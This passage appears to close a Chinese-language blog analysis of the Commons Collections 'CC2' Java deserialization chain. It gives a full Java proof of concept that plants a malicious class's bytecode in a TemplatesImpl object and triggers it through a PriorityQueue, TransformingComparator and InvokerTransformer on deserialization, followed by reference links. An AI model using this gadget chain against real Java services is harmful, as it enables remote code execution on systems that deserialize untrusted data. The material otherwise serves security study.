 ```
        TemplatesImpl templates = new TemplatesImpl();
        Class<? extends TemplatesImpl> aClass = templates.getClass();
        Field name_field = aClass.getDeclaredField("_name");
        name_field.setAccessible(true);
        name_field.set(templates,"name"); // 设置_name变量不为空  _class无需设置，需要进入defineTransletClasses

        //下面读取恶意类的字节码
        Field bytecodes_field = aClass.getDeclaredField("_bytecodes");
        bytecodes_field.setAccessible(true);
        byte[] bytes = Files.readAllBytes(Paths.get("E:\\CC1\\test\\target\\test-classes\\evil.class"));
        byte[][] bytes1 ={bytes};  //需要将字节码转为二维数组，符合形参
        bytecodes_field.set(templates,bytes1);

        //反射调用newTransformer
        InvokerTransformer invokerTransformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});

        //先将transformer赋值
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));

        PriorityQueue queue = new PriorityQueue(transformingComparator);

        //添加恶意类
        queue.add(templates);
        queue.add(1);

        //通过反射修改TransformingComparator的transformer
        Field transformer1 = transformingComparator.getClass().getDeclaredField("transformer");
        transformer1.setAccessible(true);
        transformer1.set(transformingComparator,invokerTransformer);

        serialize(queue);
        deserialize();

    }

    public static void serialize(Object o) throws Exception {
        try (ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.ser")))) {
            oos.writeObject(o);
        }
    }

    public static Object deserialize() throws Exception {
        try (ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.ser")))) {
            return ois.readObject();
        }
    }
}
```

参考文章

- [CommonsCollections2分析-CSDN博客](https://blog.csdn.net/weixin_43818995/article/details/122184245)

- [Java--cc2链反序列化漏洞&超级清晰详细 - Erichas - 博客园](https://www.cnblogs.com/byErichas/p/15749668.html)
